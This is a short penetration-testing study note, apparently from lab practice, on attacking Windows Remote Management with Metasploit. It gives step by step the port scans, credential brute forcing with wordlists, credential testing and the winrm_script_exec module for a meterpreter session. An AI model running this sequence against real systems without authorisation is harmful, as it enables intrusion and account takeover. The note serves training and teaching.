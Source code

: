 # Exploiting WinRM (Windows Remote Management Protocol)

## Practice Demo

Enumerate the target using the db\_nmamp command

* <mark style="color:yellow;">db\_nmap -sS -sV -O targetIP</mark>

We did not identify the WinRM because it is out of the 1000 most common ports, so we enumerate all TCP ports:

* <mark style="color:yellow;">db\_nmap -sS -sV-O -p- targetIP</mark>

<figure><img src="../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

### Check the authentication methods supported by <mark style="color:yellow;">WinRm on the target</mark>

* <mark style="color:yellow;">auxiliary/scanner/winrm/winrm\_auth\_method</mark>

#### Perform a brute force

* <mark style="color:yellow;">auxiliary/scanner/winrm/winrm\_login</mark>&#x20;

Use the wordlists: common\_users.txt and unix\_passwords.txt

#### Testing if the credentials work

* <mark style="color:yellow;">auxiliary/scanner/winrm/winrm\_cmd</mark>

Set the required options

#### Obtain a meterpreter session through WinRM

* <mark style="color:yellow;">exploit/windows/winrm/winrm\_scrit\_exec</mark>

We set the FORCE\_VBS to true
